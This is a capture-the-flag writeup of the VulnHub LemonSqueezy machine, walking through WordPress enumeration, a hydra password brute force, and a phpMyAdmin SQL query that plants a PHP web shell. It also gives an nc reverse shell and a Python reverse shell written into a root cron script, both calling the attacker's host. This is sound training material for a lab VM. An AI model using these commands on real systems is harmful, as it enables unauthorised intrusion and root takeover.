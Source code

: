 ```yaml
---
title: "Lemonsqueezy"
date: 2024-07-05
draft: false
summary: "Writeup for Lemonsqueezy CTF challenge on VulnHub."
tags: ["linux", "wordpress", "sql", "cron"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/lemonsqueezy/cover.webp"
  caption: "Lemonsqueezy VulnHub Challenge"
  alt: "Lemonsqueezy cover"
platform: "VulnHub"
---
```


LemonSqueezy is a beginner boot2root challenge. The goal of this challenge is to capture 2 flags by hacking into the system.
<!--more-->
To download **lemonsqueezy** click on the link given below
- https://www.vulnhub.com/entry/lemonsqueezy-1,473/

## Recon

I performed an **nmap** aggressive scan on the target to find information about open ports and running services.

```shell
nmap -p- -A TARGET --min-rate 10000 -oN lemon.nmap
```

| **Port** | **Service** |
| -------- | ----------- |
| 80       | http        |

![](https://cdn.ziomsec.com/lemonsqueezy/1.webp)

## Initial Access

Since the target was running a web server, I accessed it using a browser and found *Apache*'s landing page.

![](https://cdn.ziomsec.com/lemonsqueezy/2.webp)

The web page did not reveal anything special - so I performed a fuzz scan using **dirb** to find hidden files and directories.

```shell
dirb http://TARGET
```

![](https://cdn.ziomsec.com/lemonsqueezy/3.webp)
![](https://cdn.ziomsec.com/lemonsqueezy/4.webp)

**dirb** identified some interesting files and directories. I accessed the *wordpress* directory and found a wordpress website. Upon scrolling to the bottom, I found a link that took me to the login page.

![](https://cdn.ziomsec.com/lemonsqueezy/5.webp)

![](https://cdn.ziomsec.com/lemonsqueezy/6.webp)

To find valid users, I used **wpscan**.

```shell
wpscan --url http://TARGET/wordpress -e at,ap,u
```

![](https://cdn.ziomsec.com/lemonsqueezy/7.webp)

![](https://cdn.ziomsec.com/lemonsqueezy/8.webp)

I then used **hydra** to find the password of *orange*.

```shell
hydra -l 'orage' -P /usr/share/wordlists/rockyou.txt TARGET http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:password'
```

![](https://cdn.ziomsec.com/lemonsqueezy/9.webp)

I then logged into the **wordpress** site using these credentials.

![](https://cdn.ziomsec.com/lemonsqueezy/10.webp)

Further reconnaissance revealed something interesting in the *Posts* tab.

![](https://cdn.ziomsec.com/lemonsqueezy/11.webp)

I used this as a password in the *phpmyadmin* page that I had discovered earlier and logged in successfully.

![](https://cdn.ziomsec.com/lemonsqueezy/12.webp)

![](https://cdn.ziomsec.com/lemonsqueezy/13.webp)

The *wordpress* database had a table called *wp_users* which contained hashes password of both the users that I had discovered earlier.

![](https://cdn.ziomsec.com/lemonsqueezy/14.webp)

I then replaced the hash of *lemon* with *orange* so that I could access that user's wordpress panel.

![](https://cdn.ziomsec.com/lemonsqueezy/15.webp)

I then logged in as *lemon* and found some more tabs.

![](https://cdn.ziomsec.com/lemonsqueezy/16.webp)

I tried uploading a **php-reverse-shell** in the `Appearance -> Editor -> 404 template` but did not have enough permissions. So, I went back to *phpmyadmin* and found a table that allowed me to execute SQL queries.

![](https://cdn.ziomsec.com/lemonsqueezy/17.webp)

I created a **php** backdoor using SQL by executing the following query

```text
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php"
```
> This would allow me to execute commands using the `cmd` parameter.

![](https://cdn.ziomsec.com/lemonsqueezy/18.webp)

I then validate if I could use it to execute commands:

```
http://TARGET/wordpress/shell.php?cmd=whoami
```

![](https://cdn.ziomsec.com/lemonsqueezy/19.webp)

Since it worked, I attempted to get a reverse shell out of it.
- I visited **revshell.com** and copied an **nc** reverse shell payload.
- I started a **netcat** listener and pasted the payload into the browser.

```
http://TARGET/wordpress/shell.php?cmd=nc KALI 8080 -e /bin/bash
```

![](https://cdn.ziomsec.com/lemonsqueezy/20.webp)

```shell
nc -lnvp 80
```

![](https://cdn.ziomsec.com/lemonsqueezy/21.webp)

I then spawned a pty shell using **python**:

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://cdn.ziomsec.com/lemonsqueezy/22.webp)

Finally, I captured the user flag from the */var/www/* directory.

![](https://cdn.ziomsec.com/lemonsqueezy/23.webp)

## Privilege Escalation

### Enumerating Privesc Vector

To perform further enumeration, I downloaded the **linux-smart-enumeration** script on the target system.

![](https://cdn.ziomsec.com/lemonsqueezy/24.webp)

After giving execution permission, I executed the script:

```shell
chmod +x lse.sh
./lse.sh
```

![](https://cdn.ziomsec.com/lemonsqueezy/25.webp)

The script identified an interesting file that was executed by the crontab as root and had modification permissions for all users.

![](https://cdn.ziomsec.com/lemonsqueezy/26.webp)

![](https://cdn.ziomsec.com/lemonsqueezy/27.webp)

The next thing I did was navigate to the folder and view the file.

![](https://cdn.ziomsec.com/lemonsqueezy/28.webp)

### Exploiting Misconfigured Cron

I then added the following **python** reverse shell payload to the file and started a netcat listener.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("KALI_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![](https://cdn.ziomsec.com/lemonsqueezy/29.webp)

After some time, I got a reverse shell on my listener.

![](https://cdn.ziomsec.com/lemonsqueezy/30.webp)

After getting root access, I captured the final flag from the *root* directory.

```shell
cd /root
cat root.txt
```

![](https://cdn.ziomsec.com/lemonsqueezy/31.webp)

## Closure

Here's a brief summary of how I compromised **lemonsqueezy** and captured both flags:
- I discovered 2 login panels, */wordpress/wp-login.php* and */phpmyadmin*, by fuzzing directories of the web server.
- Using **wpscan**, I identified available users.
- I found the password for *orange* and logged into the WordPress site using those credentials.
- I obtained the password for *orange*'s *phpmyadmin* page.
- Using this, I logged into *phpmyadmin* and created a backdoor using an **SQL** query.
- I leveraged the backdoor to establish a foothold and captured the user flag by navigating up a few directories.
- I discovered a file executed as root through **cron jobs** with modification permissions.
- I uploaded my own **Python** reverse shell code into it and obtained a reverse shell as **root**
- Finally, I captured the second flag from the */root* directory.

That concludes my writeup. Until next time!

---
